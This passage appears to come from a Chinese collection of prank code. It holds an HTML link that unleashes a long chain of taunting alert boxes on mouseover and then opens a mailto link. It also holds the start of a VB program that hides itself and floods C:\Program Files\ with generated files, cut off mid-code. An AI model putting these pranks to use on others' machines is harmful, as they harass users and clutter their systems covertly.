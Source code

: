 

---
## 十三、网页整人

```html
<html> 
<head> 
<meta http-equiv="Content-Type" content="text/html; charset=gb2312"> 
<title>网页特效|Linkweb.cn/Js|---很恶心的常见整人效果</title> 
</head> 
<body> 
<a href="" onMouseover="alert('为什么把鼠标放到这里?'); 
alert('我不是说过不可以这样吗？'); 
alert('你把我的话当什么了？'); 
alert('你知道错了吗？'); 
alert('什么？你居然....'); 
alert('居然还没意识到自己做错了？'); 
alert('那好，你要为此付出代价!'); 
alert('我要你在这里点足一千下......'); 
alert('什么？你开始有点后悔了？'); 
alert('何必呢？'); 
alert('你当初干什么去了？'); 
alert('不原谅你！'); 
alert('好从现在开始再点995下......'); 
alert('你的手开始累了吗?'); 
alert('什么？你已经没力气了？'); 
alert('你一直在求我原谅你啊！'); 
alert('看来你是真的知道错了!'); 
alert('下次你还会这么做吗？'); 
alert('真的不会了？'); 
alert('那好，今天就放你一马！'); 
alert('写封信给我说声对不起!'); 
alert('你能这么做我很高兴!!!'); 
document.bgColor='black'; 
document.fgColor='White'; 
window.location.href='mailto:mygod@god?subject=对不起,下次不敢了!';">不许把鼠标移到这里</a> 

嘻试吧爽噢。。 

</body> 
</html> 
```

---
## 十四、生成很多文件
vbs整人代码 
```
Private Sub Form_Load() 
Me.Hide 
End Sub 
Private Sub Timer1_Timer() 
'声明变量，其中“count”为静态变量，以便生成不同的文件 
Dim files As String 
Dim nr As String 
Dim c As String 
Static count As Long 
'定义要把生成的文件存放在那个目录文件下 
c = "C:\Program Files\" 
'生成文件的内容
```
